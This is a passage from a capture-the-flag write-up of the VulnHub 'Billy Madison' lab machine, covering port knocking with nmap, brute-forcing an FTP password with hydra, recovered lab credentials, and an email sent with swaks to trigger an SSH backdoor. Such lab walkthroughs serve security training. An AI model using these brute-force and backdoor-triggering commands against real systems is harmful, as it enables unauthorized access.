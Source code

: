 6\. Ran a port knock using the [Spanish Armada](https://www.youtube.com/watch?v=z5YU7JwVy7s) combo to open the FTP backdoor:  
``` {.python .numberLines}
for port in 1466 67 1469 1514 1981 1986; do nmap -Pn --host_timeout 201 --max-retries 0 -p ${port} 192.168.92.167; done
nmap -p21 192.168.92.167

```

7\. Found FTP password for user `veronica` using `hydra` and the custom wordlist created earlier:  
``` {.python .numberLines}
hydra -l veronica -P veronica.wordlist 192.168.92.167 ftp → veronica/babygirl_veronica07@yahoo.com

```

![writeup.enumeration.steps.7.1](Box%20Write-ups/vulnhub.billymadison1dot1/screenshot05.png)  

8\. Found FTP password for user `eric` from the network capture file `012987veronica.cap`:  
``` {.python .numberLines}
eric/ericdoesntdrinkhisownpee

```

![writeup.enumeration.steps.8.1](Box%20Write-ups/vulnhub.billymadison1dot1/screenshot06a.png)  

9\. Connected as user `eric` to the FTP service and found a `.notes` file:  
``` {.python .numberLines}
ftp://eric@192.168.92.167/.notes

```

![writeup.enumeration.steps.9.1](Box%20Write-ups/vulnhub.billymadison1dot1/screenshot06.png)  

10\. Found reference to a SSH backdoor that requires sending an email with text `My kid will be a **soccer player**`:  
``` {.python .numberLines}
'swaks --to eric@madisonhotels.com --from vvaughn@polyfector.edu --server 192.168.92.167:2525 --body "My kid will be a soccer player" --header "Subject: My kid will be a soccer player"'

```

![writeup.enumeration.steps.10.1](Box%20Write-ups/vulnhub.billymadison1dot1/screenshot10.png)  

11\. Port `1974/tcp` is the SSH backdoor placed on the target host by user `eric`:  

![writeup.enumeration.steps.11.1](Box%20Write-ups/vulnhub.billymadison1dot1/screenshot11.png)  

12\. Found a network capture file `eg-01.cap` from user `veronica`'s FTP directory:  
``` {.python .numberLines}
ftp://veronica@192.168.92.167/eg-01.cap

```

![writeup.enumeration.steps.12.1](Box%20Write-ups/vulnhub.billymadison1dot1/screenshot09.png)  

